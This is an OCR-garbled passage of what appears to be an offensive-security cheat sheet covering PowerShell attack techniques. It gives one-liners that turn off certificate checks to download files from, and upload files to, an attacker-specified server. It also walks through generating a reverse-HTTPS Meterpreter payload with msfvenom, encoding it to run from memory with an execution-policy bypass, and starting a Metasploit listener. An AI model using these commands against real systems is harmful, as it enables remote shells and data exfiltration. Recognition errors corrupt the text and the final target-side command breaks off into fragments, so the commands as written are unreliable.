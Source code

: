 ### Download from Powershell from specific path

```text
powershell.exe -noprofile -noninteractive -command 
"[System.Net.ServicePointManager] ::ServerCertificateValidationCallback = 
{$true); $source="""https:ll YOUR SPECIFIED IP I file.zip """; 
$destination="C:\rnaster.zip"; $http = new-object Systern.Net.WebClient;
$response= $http.DownloadFile($source, $destination);" 
```

### Display Powershell data

```text
Script will send a file ($filepath) via http to server ($server) via POST request. 
Must have web server listening on port designated in the $server
 
powershell.exe -noprofile -noninteractive -command 
"[S;stem.Net.ServicePointManager] ::ServerCertificateValidationCallback = 
{$true); $server="""http:// YOUR_SPECIFIED IP / folder """;
$filepath="C:\master.zip" $http= new=object System.Net.WebClient;
$response= $http.UploadFile($server,$filepath);" 
```

## Using powershell to run meterpreter from memory

```text
Need Metasploit v4.5+ (msfvenom supports Powershell) 
Use Powershell (x86) with 32 bit Meterpreter payloads 
encodeMeterpreter.psl script can be found on next page 
```

### in the attacking system

```text
1. ./msfvenom -p Wlndows/meterpreter/reverse https -f psh -a x86 LHOST=1.1.1.1 LPORT=443 audit.psl 
2. Move audit.psl into same folder as encodeMeterpreter.psl 
3. Launch Powershell (x86) 
4. powershell.exe -executionpolicy bypass encodeMeterpreter.psl 
5. Copy the encoded Meterpreter string
```

### Start the listener in the attacking system

```text
1. ./msfconsole 
2. use exploit/multi/handler 
3. set payload windows/meterpreter/reverse https 
4. set LHOST 1. 1. 1. 1 
5. set LPORT 443 
6. exploit -j 
```

### On the target system \(run powershell\(x86\)\)


[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"